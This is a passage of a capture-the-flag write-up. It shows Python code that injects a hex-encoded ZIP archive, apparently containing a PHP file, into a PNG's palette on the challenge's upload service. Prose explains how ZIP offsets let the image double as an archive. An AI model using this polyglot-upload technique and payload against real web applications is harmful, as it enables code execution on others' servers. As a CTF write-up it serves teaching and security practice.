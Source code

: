 ```python
def form_payload(payload):
    b = ["{:02x}".format(ord(c)) for c in binascii.unhexlify(payload)]
    for i in range(3-(len(b) % 3)): # padding
        b.append("00")
    data = []
    for i in range(0, len(b), 3):
        data.append('"#%s%s%s"' % (b[i], b[i + 1], b[i + 2]))
    return ",".join(data)
```

And we prepare a script to edit selected uploaded png file on the webpage and to set our payload as palette bytes:

```python
def edit_file(imagekey, palette_payload):
    base_url = "http://pixelshop.pwning.xxx/"
    url = base_url + "?op=save"
    img = ",".join(['0' for i in range(32 * 32)])
    payload = form_payload(palette_payload)
    jsonData = """
     {
       "pal": [%s],
       "im":[%s]
     }
    """ % (payload, img)
    data = {"imagekey": imagekey, "savedata": jsonData}
    result = requests.post(url, data=data)
    print(result.content)
    image_url = base_url + "uploads/" + imagekey + ".png"
    png = requests.get(image_url)
    print(" ".join("{:02x}".format(ord(c)) for c in png.content))
```

Now we need to somehow make this png a proper ZIP file.
The interesting thing about ZIP files is that, unlike most file formats, the header of the file is somewhere at the end.
So the unzip is looking from the end of the file for the main header.
We can also mark anything after this header as "comment" and then unzip will ignore it.
Additionally the ZIP header specifies offsets (from the file start) at which the compressed data are stored.
Since we know the "prefix" of the png file we can simply calculate the ZIP offsets by hand to start in the injected palette.

We execute the code with our crafted zip payload:

`payload_raw = "504B0304140000000800EE769148F0D042901D0000002100000005000000732E706870B3B12FC82850508977770D89564F548FD5803293D46335ADEDED78B900504B01021400140000000800EE769148F0D042901D00000021000000050000000000000001002000000029000000732E706870504B0506000000000100010033000000690000000000"`

And we get an image file uploaded on the server:

![](exploit.png) 
